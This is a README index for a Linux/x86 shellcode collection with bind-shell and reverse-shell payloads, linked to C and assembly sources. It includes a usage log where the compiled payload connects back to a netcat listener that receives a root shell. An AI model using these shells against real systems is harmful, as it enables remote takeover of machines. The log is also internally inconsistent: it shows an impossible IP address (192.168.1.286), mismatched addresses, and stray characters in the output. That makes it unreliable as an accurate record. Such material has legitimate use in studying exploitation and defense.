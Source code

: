 # [Linux-x86](./README.md)
## Linux/x86 - Shell (/bin/sh)



<div align="center" style="font-size:30px">

# ***Tree***
 ---
#  Linux-x86
#     ╔═════════╩═════════╗
#  [Bind-Shellcode](Bind-Shellcode/README.md)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell](Reverse-Shell/README.md) 
#   ╔══════╩══════╗&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;╔══════╩══════╗
## [Bind-Shellcode.c](Bind-Shellcode/Bind-Shellcode.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Bind-Shellcode.asm](Bind-Shellcode/Bind-Shellcode.asm)    &#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell.c](Reverse-Shell/Reverse-Shell.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Reverse-Shell.asm](Reverse-Shell/Reverse-Shell.asm) 
</div>

---

# [Bind-Shellcode](Bind-Shellcode/README.md)

# Linux-x86/Bind-Shellcode
## Linux-x86 - Bind (User Specified Port) Shell (/bin/sh) Shellcode (102 bytes)

---

# [Reverse-Shell](Reverse-Shell/README.md)

## Linux-x86 - Reverse (dynamic IP and port/TCP) Shell (/bin/sh) Shellcode (86 bytes)

# Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.286 4443
        Connecting to 192.168.1.198 (0xec01a8c0):4443 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4443
        Listening on 0.0.0.0 4443
        Connection received on 192.168.1.286 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
